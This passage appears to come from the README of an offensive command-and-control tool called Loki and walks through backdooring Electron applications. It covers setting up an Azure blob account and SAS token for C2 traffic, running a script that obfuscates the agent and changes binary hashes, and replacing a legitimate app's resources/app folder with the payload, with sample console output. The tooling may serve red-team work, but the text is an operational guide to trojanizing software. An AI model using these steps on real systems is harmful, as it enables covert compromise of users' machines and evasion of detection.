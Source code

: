 
### Simple Instructions
_You don't need to compile the agent when backdooring Electron apps. Just replace the contents of `{ELECTRONAPP}/resources/app/` with the Loki agent files._

### Detailed Instructions
#### Step 1 : Create Azure Storage Blob Account and get SAS Token
- [Create Azure Storage Account via Azure Portal](./docs/azure/create-storage-account-portal.md)
- [Create Azure Storage Account via Azure CLI](./docs/azure/create-storage-account-sas-azurecli.md)
#### Step 2 : Create Obfuscated Loki Payload
- Clone this repo and `cd` into it
- Install Node.JS
- Install `javascript-obfuscator` module
```
npm install --save-dev javascript-obfuscator
```
- Run `obfuscateAgent.js` script to create a Loki payload with your Storage Account info
```
bobby$ node obfuscateAgent.js 
[+] Provide Azure storage account information:
        - Enter Storage Account  : 7f7584ty218ba5dba778.blob.core.windows.net
        - Enter SAS Token        : se=2025-05-28T23%3A14%3A48Z&sp=rwdlac&spr=https&sv=2022-11-02&ss=b&srt=sco&sig=5MXQzJ6FDZK8yYiBSgJ6FDZKgQzJMXBSgg6qE4ydrJ6FDZKSgg%3D

[+] Configuration:
        - Storage Account : 7f7584ty218ba5dba778.blob.core.windows.net
        - SAS Token       : se=2025-05-28T23%3A14%3A48Z&sp=rwdlac&spr=https&sv=2022-11-02&ss=b&srt=sco&sig=5MXQzJ6FDZK8yYiBSgJ6FDZKgQzJMXBSgg6qE4ydrJ6FDZKSgg%3D
        - Meta Container  : mllyi2zjmafjm

[+] Updated /Users/bobby/apr2/LokiC2/config.js with storage configuration. 
 - Enter into the Loki Client UI
        Loki Client > Configuration

[+] Modifying PE binaries to have new hashes...
        - Payload assembly.node hash : e9d126407264821d3c2d324da0e2d1bc13cbc53e7c56340fe12b07f69b707f02
        - Payload keytar.node   hash : 292c14ffebd6cae3df99d9fbee525e29a5a704f076b82207eb3e650de45b075d

[+] Payload ready!
         - Obfuscated payload in the ./app directory
```
#### Step 3 : Backdoor Electron Application
- Your obfuscated Loki payload is output to `./app/`
- Change directory to the `{ELECTRONAPP}/resources/`  
- Delete everything
- Copy the Loki `./app/` folder to `{ELECTRONAPP}/resources/app/`
- Click the Electron PE file and make sure Loki works
